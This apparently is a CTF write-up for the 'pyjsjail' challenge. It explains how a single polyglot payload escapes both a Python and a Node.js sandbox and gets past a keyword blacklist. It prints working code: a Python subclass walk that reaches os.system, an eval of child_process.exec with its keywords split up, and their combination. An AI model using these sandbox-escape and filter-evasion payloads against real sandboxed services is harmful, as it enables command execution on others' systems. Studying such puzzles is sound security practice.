




## pyjsjail

Category: Misc

probably my favourite pyjail solve  
1 month of screwing around with polyglot golfing in 2024 paid off apparently

Inspecting the server source code, we see that the flag file is stored in the same directory as the backend code.



The server runs our payload through two interpreters - Python and JavaScript, and only returns the flag if our payload successfully prints the flag in both languages while bypassing the blacklist.  




To tackle this challenge, we can first craft separate payloads for each language, before combining them into a polyglot oneliner later on.  

The Python payload is relatively straightforward. To gain access to `os`, we use the standard method of accessing Python subclasses through `().__class__.__base__.__subclasses__()`. We then filter out a specific class that contains an `os` module import, which we can use to read the flag file through a `system` call.  

The blacklist can be easily bypassed through a `getattr` call and string concatenations.

```python
getattr([cls for cls in ().__class__.__base__.__subclasses__() if 'o'+'s._wrap_close' in str(cls)][0].__init__.__globals__['sys'].modules['o'+'s'], 'syste'+'m')('cat fla'+'g.txt')
```

The JavaScript payload is similarly straightforward, albeit somewhat tedious.  

`eval` is surprisingly not included in the blacklist, hence, we can insert a oneliner to read the flag file into an `eval` statement, bypassing the blacklist through some string concatenations.

```javascript
eval("req"+"uire(\"child_p"+"rocess\").exec(\"cat fla\"+\"g.txt\").stdout.pipe(pr"+"ocess.stdout)")
```

To combine both payloads into a singular polyglot payload, we have to make a few tweaks.  

First, in our solve script, we can declare both payloads as string variables. We then preceed the JavaScript payload with `lambda`, before escaping all quotes and backslashes to ensure proper string representation of our payload.  

```python
js = 'lambda:eval(\"req\"+\"uire(\\"child_p\"+\"rocess\\").exec(\\"cat fla\\"+\\"g.txt\\").stdout.pipe(pr\"+\"ocess.stdout)\")'

py = "getattr([cls for cls in ().__class__.__base__.__subclasses__() if 'o'+'s._wrap_close' in str(cls)][0].__init__.__globals__['sys'].modules['o'+'s'], 'syste'+'m')('cat fla'+'g.txt')"
```

We can then combine both payloads as shown below.

```python
f"{js};0//{py}"
```

In JavaScript, `lambda` will be treated as a label, and will not affect our code in any way. The double slash will serve as a comment to prevent our Python payload from interfering.

```javascript
lambda: [js payload]; 0 // [python payload]
```

In Python, since our JavaScript payload is essentially an `eval` call inside a `lambda`, it will be ignored. The double slash in this case will now serve as a quotient operator and cause the Python payload portion to be evaluated.

```python
lambda: [js payload]; 0 // [python payload]
```

After sending a post request with our payload to the challenge endpoint, we get our flag. (i'm currently writing this a week after the ctf has ended and i lost the actual flag)

